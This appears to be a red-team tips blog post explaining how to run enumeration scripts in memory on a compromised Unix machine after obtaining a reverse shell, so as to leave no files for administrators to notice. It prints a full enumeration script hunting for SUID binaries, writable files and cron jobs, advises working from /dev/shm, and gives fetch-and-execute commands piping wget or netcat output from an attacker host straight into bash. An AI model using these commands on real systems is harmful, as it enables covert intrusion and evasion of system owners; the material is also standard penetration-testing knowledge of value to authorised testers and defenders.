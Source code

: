 ```yaml
---
description: >-
  How to execute a downloaded script on a remote machine in memory
title: Execute remote scripts from memory                    # Add title of the machine here
date: 2021-04-29 08:00:00 -0600                           # Change the date to match completion date
categories: [Tips & Tricks]                     # Categories
tags: [hacking, redteam, tips-n-tricks, script, enumeration, linux, macos]     # TAG names should always be lowercase; add relevant tags
show_image_post: true                                    # Change this to true
#image: /assets/img/                # Add image here for post preview image
---
```


![Hack responsibly disclaimer](/assets/markups/1-hack-responsibly.svg)

## Execute script in memory

Scenario: You have just gotten a shiny new reverse shell on a Unix-based machine and you want to do some quick enumeration.  You do not want to leave any files on the target system for the system administrators to notice, so you decide to run your enumeration scripts in memory.  How do you do this, you ask?

```bash
#!/bin/sh
# simple-enum.sh
#For conducting simple enumeration of linux machines

echo [+] Distribution and kernel version
cat /etc/issue
uname -a

echo [+] Mounted filesystems
mount -l

echo [+] Network configuration
ip -a
cat /etc/hosts
arp

echo [+] Development tools availability
which gcc
which g++
which python
which python3

echo [+] Installed packages (Debian systems only)
dpkg -l

echo [+] Services
netstat -tulnpe

echo [+] Processes
ps -aux

echo [+] Scheduled jobs
find /etc/cron* -ls 2>/dev/null
find /var/spool/cron* -ls 2>/dev/null

echo [+] Readable files in /etc 
find /etc -user `id -u` -perm -u=r \
 -o -group `id -g` -perm -g=r \
 -o -perm -o=r \
 -ls 2>/dev/null 

echo [+] SUID and GUID writable files
find / -o -group `id -g` -perm -g=w -perm -u=s \
 -o -perm -o=w -perm -u=s \
 -o -perm -o=w -perm -g=s \
 -ls 2>/dev/null 

echo [+] SUID and GUID files
find / -type f -perm -u=s -o -type f -perm -g=s \
 -ls 2>/dev/null

echo [+] Writable files outside HOME
mount -l find / -path “$HOME” -prune -o -path “/proc” -prune -o \( ! -type l \) \( -user `id -u` -perm -u=w  -o -group `id -g` -perm -g=w  -o -perm -o=w \) -ls 2>/dev/null
```

Say you have written the simple enumeration script above that you have saved to your machine, but you want to execute it on the victim's machine. Or, you have downloaded one of the more popular enumeration scripts such as [LinEnum.sh](https://github.com/rebootuser/LinEnum) or [LinPEAS.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS).  How do you do this without leaving behind obvious evidence that you were there?

## /dev/shm

First of all, I recommend to use the directory `/dev/shm` to work out of to avoid writing files to the disk.  This is a virtual directory that only exists in memory.  Any files left behind here will be wiped when the system shuts down or restarts.

```bash
cd /dev/shm
```

In addition to using the virtual directory `/dev/shm` to write files to, you can also execute scripts in memory directly by using the methods below.

## Using Wget

Using the web-get program `wget` to download a script from an attacker-controlled web server is an excellent way to get remote script execution in memory.  If you do not have a web server to hosts your scripts, you can create one on the fly by using Python3's `http.server` module.

1. First, host the file using a Python HTTP server from your attacking platform of choice (Kali, Parrot, etc) so it is accessible remotely.

```bash
python3 -m http.server $port
```

You can specify a port by replacing the variable `$port` above.  Note: if you wish to use one of the "well-known" ports such as 80 or 443, you must run the command with `sudo`.  If you leave off the `$port`, it will default to port 8000.

2. Next, you can use the command `wget` to fetch your script from your HTTP server.  By piping this command into `bash` you can execute the script directly from memory.

```bash
wget -O - http://$attackerIP:$port/$script | bash
```

| Parameter | Description |
| :--- | :--- |
| `-O -` | This parameter tells `wget` to send the contents it downloads to `stdout`. |
| `$attackerIP` | This is your attacking machine's IP (must be reachable from the victim's machine). |
| `$port` | The port you specified on your HTTP server |
| `$script` | This will be the name of the script to fetch from your machine. |

## Using Netcat

This same scenario can also be accomplished by using the popular network transfer tool netcat (`nc`) in the same way you would create a reverse shell. 

1. From your attack platform, start a netcat listener by piping in the contents of your script using `cat`.

```bash
cat $script | nc -nvlp $port
```

With netcat you must specify a port to listen on.  

2. Next, use netcat on the victim machine to reach back to your attack platform.  When it connects, your computer will send the contents of the script to the victim.  You can execute this in memory by piping this output to `bash`.

```bash
nc $attackerIP $port | bash
```

## Other Examples

If you have any other examples of methods of executing remote scripts directly in memory, or have any other fun or useful tips or tricks, feel free to contact me on Github at [https://github.com/zweilosec](https://github.com/zweilosec) or on social media!

If you like this content and would like to see more, please consider buying me a coffee! <a href="https://www.buymeacoffee.com/zweilosec"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me a coffee&emoji=&slug=zweilosec&button_colour=FFDD00&font_colour=000000&font_family=Lato&outline_colour=000000&coffee_colour=ffffff"></a>

